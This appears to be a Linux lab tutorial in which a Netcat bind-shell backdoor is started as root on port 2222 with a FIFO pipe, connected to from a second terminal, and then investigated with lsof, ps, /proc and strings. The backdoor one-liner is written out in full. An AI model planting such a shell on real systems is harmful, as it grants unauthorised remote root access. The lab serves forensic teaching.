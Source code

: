 # Linux CLI 

In this lab we’ll examine a simple backdoor using the Linux command line.
You’ll use common CLI tools to investigate what the backdoor is doing and how it behaves. We’ll run three Kali terminals:

Terminal 1 — host and run the backdoor.

Terminal 2 — connect to the backdoor (attacker/client).

Terminal 3 — perform analysis and investigation.

1 — Start Terminal 1 (host the backdoor)


Open a Kali terminal as Administrator (or click the Kali logo in the taskbar). Then become root:

```bash

sudo su -
```


We want the backdoor running as root, while the connection is made from a different user account. Create a FIFO backpipe:

```bash

mknod backpipe p
```

Start the backdoor (Netcat listener piping to a bash shell):

```bash

/bin/bash backpipe 0<backpipe | nc -l 2222 1>backpipe
```

Explanation: this creates a Netcat listener on port 2222 that sends input from the FIFO into /bin/bash, then writes the shell output back into the FIFO — effectively a remote shell backdoor on port 2222.


2 — Terminal 2 (connect to the backdoor)

Open another Kali terminal (right-click the icon → Open). Find the host IP:

```bash

ifconfig
```


Connect to the backdoor (replace the IP with your host’s IP):

nc 10.10.104.64 2222


Note: YOUR IP WILL BE DIFFERENT.

To confirm the connection, run a few commands from Terminal 2:

ls
whoami


If you see output, you’re connected to the remote shell.

3 — Terminal 3 (analysis)

Open a third Kali terminal and become root again:

sudo su -


Root access is required because we’ll inspect system-wide network connections and process details.

Inspect open network connections with lsof

Show open Internet connections and port numbers:

lsof -i -P


Find the Netcat process and its PID from that output, then list files opened by that PID:

lsof -p [PID]

View running processes with ps

List full process details:

ps aux


Locate the Netcat (or bash) PID you want to inspect, then change into its /proc directory (replace [pid]):

cd /proc/[pid]


Note: /proc is a virtual filesystem that exposes runtime process information. Your PID will be different.

List contents:

ls

Inspect in-memory binary strings

You can extract readable strings from the executable mapped for the process:

strings ./exe | less


Scrolling through this output often reveals usage text, referenced libraries, and other useful clues (we’re reading the program’s memory image).

Press Enter to reveal more lines in less.

Quick reminders

Replace IPs and PIDs with values from your environment.

Use Ctrl+C to stop listeners or sessions when finished.

Running these steps as root is intentional for the lab (inspect system-wide state), but always exercise caution when running shells or listeners on production systems.

